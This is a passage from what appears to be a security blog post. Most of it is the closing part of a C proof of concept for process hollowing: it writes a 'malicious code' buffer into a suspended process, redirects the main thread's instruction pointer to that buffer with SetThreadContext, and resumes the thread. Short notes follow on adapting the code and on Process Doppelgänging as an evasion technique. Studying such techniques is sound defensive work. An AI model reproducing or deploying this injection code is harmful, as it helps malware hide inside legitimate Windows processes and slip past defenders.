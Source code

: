 ```
        return 1;

    }

    // Step 4: Write the malicious code to the allocated memory

    WriteProcessMemory(pi.hProcess, newImageBase, maliciousCode, strlen(maliciousCode), NULL);

    // Step 5: Update the entry point of the main thread to point to the malicious code

    CONTEXT ctx;

    ctx.ContextFlags = CONTEXT_FULL;

    GetThreadContext(pi.hThread, &ctx);

    ctx.Rip = (DWORD64)newImageBase;  // For x64 architecture

    SetThreadContext(pi.hThread, &ctx);

    // Step 6: Resume the main thread

    ResumeThread(pi.hThread);

    // Cleanup

    CloseHandle(pi.hThread);

    CloseHandle(pi.hProcess);

    return 0;

}
```

Note:

This is a basic PoC and may require additional modifications to work in specific environments. The actual malicious code should be replaced with a benign payload for testing purposes.

The code uses the NtUnmapViewOfSection function, which is not part of the standard Windows SDK. You’ll need to provide the appropriate function prototype and link against the ntdll.lib library.

This PoC assumes a 64-bit architecture (as indicated by the use of ctx.Rip). Adjustments would be needed for a 32-bit architecture.

Also, Process Doppelgänging is a sophisticated evasion technique that manipulates the way Windows handles file transactions and process creation. Introduced by Tal Liberman and Eugene Kogan during their 2017 Black Hat Europe presentation titled “Lost in Transaction: Process Doppelgänging,” this method offers a fresh take on process-image modification.

![Process Doppelgänging structure](https://hadess.io/wp-content/uploads/2023/09/image-2-1024x425.png)
